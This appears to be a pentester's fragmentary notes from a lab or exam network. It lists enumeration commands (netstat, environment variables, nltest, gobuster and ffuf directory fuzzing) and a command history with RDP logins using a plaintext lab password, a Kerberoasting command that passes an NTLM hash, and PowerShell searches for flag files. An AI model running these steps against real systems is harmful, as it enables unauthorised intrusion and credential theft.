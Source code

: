 ## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
https://192.168.204.221/RDWeb

login: SKYLARK\kiosk : XEwUS^9R2Gwt8O914

start skylarkstatus

xfreerdp3 cpub-SkylarkStatus-QuickSessionCollection-CmsRdsh.rdp /d:skylark /u:kiosk /p:'XEwUS^9R2Gwt8O914' /v:192.168.204.221 /clipboard
// AUSTIN02
// xfreerdp3 cpub-SkylarkStatus-QuickSessionCollection-CmsRdsh.rdp /u:"kiosk" /p:"XEwUS^9R2Gwt8O914" /d:SKYLARK /v:192.168.204.221:10000 /cert:ignore  /dynamic-resolution

// impacket-GetUserSPNs -request skylark.com/kiosk -hashes :'92dd9eace3cf9ea33a95953aef6845ba' -dc-ip 10.10.164.250

//can get powershell running using open dialog
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include proof.txt
// prob lack permissions
Get-NetTCPConnection -State Listen | ForEach-Object {
    $proc = Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue
    [PSCustomObject]@{
```